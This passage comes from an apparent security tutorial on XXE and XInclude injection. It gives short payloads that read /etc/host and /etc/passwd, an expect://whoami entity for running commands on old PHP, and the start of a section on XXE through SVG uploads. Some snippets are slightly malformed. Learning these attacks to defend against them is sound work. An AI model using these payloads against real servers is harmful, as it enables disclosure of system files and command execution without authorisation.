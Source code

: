If we change the "Bouh" by **<!ENTITY xxe "Bouh" >]>** by **<!ENTITY xxe SYSTEM "file:///etc/host >]>**, it will perform a Local File Include by calling the system to display the content of /etc/host

Something to know is the "expect" module that requires old version of PHP.
It allows to run command on the system.
For instance *<!ENTITY xxe SYSTEM "expect://whoami" >]>

###### XInclude

[XInclude](https://en.wikipedia.org/wiki/XInclude) is a generic mechanism for merging XML documents, by writing inclusion tags in the "main" document to automatically include other documents or parts thereof.

For instance we have a text file "license.txt" which is the following
> This document is published under GNU Free Documentation License

And then the following XHTML

```xhtml
<?xml version="1.0"?>
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xi="http://www.w3.org/2001/XInclude">
   <head>...</head>
   <body>
      ...
      <p><xi:include href="license.txt" parse="text"/></p>
   </body>
</html>
```

It becomes

```xhtml
<?xml version="1.0"?>
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xi="http://www.w3.org/2001/XInclude">
   <head>...</head>
   <body>
      ...
      <p>This document is published under GNU Free Documentation License</p>
   </body>
</html>
```

So to perform an **XInclude attack**, we need to inject the XInclude reference and provide the path to the file we want to include

```xhtml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

###### XXE through SVG (File Upload)

SVG files use **XML**, which is a good match for XXE.
By the way, the MIME type for SVG is *data:image/svg+xml*

This is usually done through **XLink** which is an XML markup language and W3C specification that provides methods for creating internal and external links within XML documents, and associating metadata with those links,
